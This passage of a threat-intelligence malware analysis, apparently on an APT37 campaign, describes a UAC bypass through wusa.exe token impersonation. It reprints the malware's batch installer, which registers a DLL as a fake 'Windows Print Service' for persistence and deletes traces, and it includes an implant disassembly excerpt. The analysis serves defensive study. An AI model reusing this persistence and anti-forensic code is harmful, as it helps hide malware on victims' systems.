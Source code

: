 <h6>After this, the program bypass UAC is using a well-known method with access token impersonation routine in duplicates the token from one of the high integrity instances of Windows Update Standalone Installer (wusa.exe). This fileless UAC bypass is named “Cavalry” and comes from the leaks of "Vault7". This spawns a new cmd process for elevate their rights.</h6>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/North%20Korea/APT/APT37/2020-04-23/Pictures/elevate_loader.png"></center>

<h6>The elevated prompt expands the cab file and launches the bat file. This stop this own service if already installed and running on the system. Check if the files exist on the system32 folder (already copied) for copy it. Once this, create a service for the persistence and elevate again theirs rights. Finally delete the loader and the files extracted on the temp folder as anti-forensic measures.</h6>

```bash
@echo off

sc stop WPrint > nul

echo %~dp0 | findstr /i "system32" > nul
if %ERRORLEVEL% equ 0 (goto INSTALL) else (goto COPYFILE)

:COPYFILE
copy /y "%~dp0\wprint.dll" %windir%\System32 > nul
del /f /q "%~dp0\wprint.dll" > nul

copy /y "%~dp0\wprint.ini" %windir%\System32 > nul
del /f /q "%~dp0\wprint.ini" > nul

:INSTALL
sc create WPrint binpath="%windir%\system32\svchost.exe -k WPrint" DisplayName="Windows Print Service" > nul
sc description WPrint "This service opens custom printer dialog boxes and handles notifications from a remote print server or a printer." > nul
sc config WPrint type=own start=auto error=normal binpath="%windir%\system32\svchost.exe -k WPrint" > nul
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" /v WPrint /t REG_MULTI_SZ /d "WPrint" /f > nul
reg add "HKLM\SYSTEM\CurrentControlSet\Services\WPrint\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "%windir%\system32\wprint.dll" /f > nul
sc start WPrint > nul

del /f /q "%USERPROFILE%\up.exe" > nul
del /f /q "%~dpnx0" > nul
```
<h6>The final implant begins by getting the content of ini file for get the configuration. This is also packed with UPX.</h6>

```asm
0x10002367      push 0x208         ; 520
0x1000236c      push esi
0x1000236d      mov ebx, 0x10006f38 ; '8o'
0x10002372      push ebx
0x10002373      mov dword [var_4h], esi
0x10002376      call fcn.100043c0
0x1000237b      add esp, 0xc
0x1000237e      push 0x104         ; 260
0x10002383      push ebx
0x10002384      push dword [0x10006cd0]
0x1000238a      call dword [0x10006cf8]
0x10002390      mov edi, dword [sym.imp.SHLWAPI.dll_StrRChrW] ; 0x10005044
0x10002396      push str..ini      ; 0x10005060 ; u".ini"
0x1000239b      push 0x2e          ; '.' ; 46
0x1000239d      push esi
0x1000239e      push ebx
0x1000239f      call edi
```